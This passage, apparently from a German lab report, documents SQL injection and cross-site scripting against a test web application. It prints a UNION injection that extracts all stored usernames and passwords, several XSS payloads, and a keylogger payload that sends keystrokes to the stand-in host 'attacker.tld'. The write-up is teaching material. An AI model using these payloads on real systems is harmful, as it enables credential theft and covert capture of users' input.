    
\includegraphics[width=17cm]{sql-injection-login-success.png}
    \caption{Erfolgreiche Anmeldung mit SQL Injection}
    \label{fig:sql-injection-login-success}
\end{figure}

\noindent Um die Möglichkeiten der SQL Injection weiter zu demonstrieren, wurde eine alternative Injection entwickelt, um alle Benutzerdaten zu extrahieren:
\begin{lstlisting}[breaklines]
' union select 1, group_concat(concat_ws('|', user, password) separator ', '), 'attack' from credentials -- '
\end{lstlisting}
Diese Injection wird ebenfalls als Benutzername eingegeben, während \lstinline|attack| wieder als Passwort verwendet wird. Als Ergebnis enthält der angezeigte Benutzername in der Webanwendung nun alle extrahierten Daten aus der Datenbanktabelle, wie in der folgenden Abbildung zu sehen ist:

\begin{figure}[H]
    \centering
    
\includegraphics[width=17cm]{sql-injection-data-extraction.png}
    \caption{Extraktion aller Benutzerdaten mit SQL Injection}
    \label{fig:sql-injection-data-extraction}
\end{figure}

\FloatBarrier

\subsection{Cross-Site Scripting}
Um die Cross-Site Scripting (XSS) Schwachstelle der Webanwendung zu demonstrieren, wurden verschiedene Methoden der Code-Injektion in das Message Board getestet, das nach erfolgreicher Anmeldung zugänglich ist.

\noindent Zunächst wurde ein einfacher JavaScript-Code injiziert, der eine Alert-Box mit dem Text \lstinline|test| anzeigen sollte:
\begin{lstlisting}[breaklines]
<script>alert('test')</script>
\end{lstlisting}

\begin{figure}[H]
    \centering
    
\includegraphics[width=15cm]{xss-script-injection-fail.png}
    \caption{Fehlgeschlagene Ausführung des JavaScript-Codes}
    \label{fig:xss-script-injection-fail}
\end{figure}

\noindent Trotz erfolgreicher Injektion des Codes geschah jedoch nichts Sichtbares auf der Webseite.

\noindent Bei näherer Untersuchung zeigte sich, dass der Code zwar in den HTML-Quelltext eingefügt wurde, aber von Firefox ignoriert wurde. Dies war an der grauen Hinterlegung im Quelltext erkennbar, wie die folgende Abbildung zeigt:

\begin{figure}[H]
    \centering
    
\includegraphics[width=17cm]{xss-script-injection-html.png}
    \caption{HTML-Quelltext mit grau hinterlegtem JavaScript-Code}
    \label{fig:xss-script-injection-html}
\end{figure}

\noindent Als Alternative wurde ein <img>-Tag mit dem onerror-Attribut verwendet. Diese Methode zielt darauf ab, JavaScript-Code auszuführen, wenn das Laden eines Bildes fehlschlägt:
\begin{lstlisting}[breaklines]
<img src="" onerror=alert('test')>
\end{lstlisting}

\begin{figure}[H]
    \centering
    
\includegraphics[width=17cm]{xss-img-tag-injection-success.png}
    \caption{Erfolgreiche XSS-Ausführung mit img-Tag}
    \label{fig:xss-img-tag-injection-success}
\end{figure}

\noindent Wie in der Abbildung zu sehen ist, war diese Methode erfolgreich und löste wie erwartet ein Alert-Fenster aus.

\noindent Um die Schwere der XSS-Schwachstelle zu verdeutlichen, wurden zwei Angriffsvektoren getestet.

\noindent Zunächst wurde ein Keylogger eingesetzt, der jeden Tastendruck an einen externen Server sendet:
\begin{lstlisting}[breaklines]
<img src="" onerror="document.addEventListener('keypress', function(e) { fetch('http://attacker.tld?key=' + String.fromCharCode(e.which)); }); this.remove();">
\end{lstlisting}

\noindent Für diese Demonstration wurde die fiktive Adresse \lstinline|attacker.tld| als Zielserver verwendet.

\noindent Der resultierende Netzwerkverkehr, der die gesendeten Tastendrücke zeigt, ist in der folgenden Abbildung dargestellt:

\begin{figure}[H]
    \centering
